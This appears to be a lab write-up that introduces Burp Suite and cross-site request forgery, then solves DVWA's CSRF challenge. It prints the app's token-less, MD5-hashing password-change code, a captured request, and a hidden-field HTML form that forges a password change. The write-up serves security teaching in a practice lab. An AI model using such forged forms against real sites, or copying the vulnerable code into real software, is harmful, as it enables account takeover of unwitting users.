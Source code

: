 # Study of Cross Site Request Forgery (CSRF)

### Burp-Suite
Burp or Burp Suite is a set of tools used for penetration testing of web applications. It is developed by the company named Portswigger, which is also the alias of its founder Dafydd Stuttard. BurpSuite aims to be an all in one set of tools and its capabilities can be enhanced by installing add-ons that are called BApps.
It is the most popular tool among professional web app security researchers and bug bounty hunters. Its ease of use makes it a more suitable choice over free alternatives like OWASP ZAP. 

### CSRF
Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

In a successful CSRF attack, the attacker causes the victim user to carry out an action unintentionally. For example, this might be to change the email address on their account, to change their password, or to make a funds transfer. Depending on the nature of the action, the attacker might be able to gain full control over the user's account. If the compromised user has a privileged role within the application, then the attacker might be able to take full control of all the application's data and functionality.

### Solving CSRF in DVWA using Burp-Suite
The first thing that was done is checking the source code . You can simply do this in DVWA by clicking view source in the bottom right.
```
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 

```
The script takes the user input and checks if the two passwords match, if they do the password is updated, if not the password is not updated. What we can see here is there is no protection against CSRF, such as Anti-CSRF token.

When we try to send a legitimate request from inside DVWA to change the ```New password``` paramter in CSRF challenege
```
GET /DVWA/vulnerabilities/csrf/?password_new=smit&password_conf=smiy&Change=Change HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/DVWA/vulnerabilities/csrf/
Cookie: security=low; PHPSESSID=h7ls4j5vqgj9olvdg9vedcij0f
Upgrade-Insecure-Requests: 1
```
What we can see is it is a GET request and you can see the value of the new password has been changed to **smit**

The next step is to view the html source code of the page. There is a form in there that makes a GET request. It looks just like this.

```
<form action="#" method="GET">
New password:<br />
<input type="password" AUTOCOMPLETE="off" name="password_new"><br />
Confirm new password:<br />
<input type="password" AUTOCOMPLETE="off" name="password_conf"><br />
<br />
<input type="submit" value="Change" name="Change">
```

It is the form that you see when you change the password. it takes the input from the user for a new password and confirm password. The below snippet is taken from the response body and changed according to our needs. Here the new password is **hacked by SMIT**

```
<form action=”http://localhost/DVWA-master/vulnerabilities/csrf/?" method=”GET”>
 <h1>Click Me</h1>
 <input type=”hidden” AUTOCOMPLETE=”off” name=”password_new” value=”hacked+by+smit”>
 <input type=”hidden” AUTOCOMPLETE=”off” name=”password_conf” value=”hacked+by+smit”>
 <input type=”submit” value=”Change” name=”Change”>
</form>
```

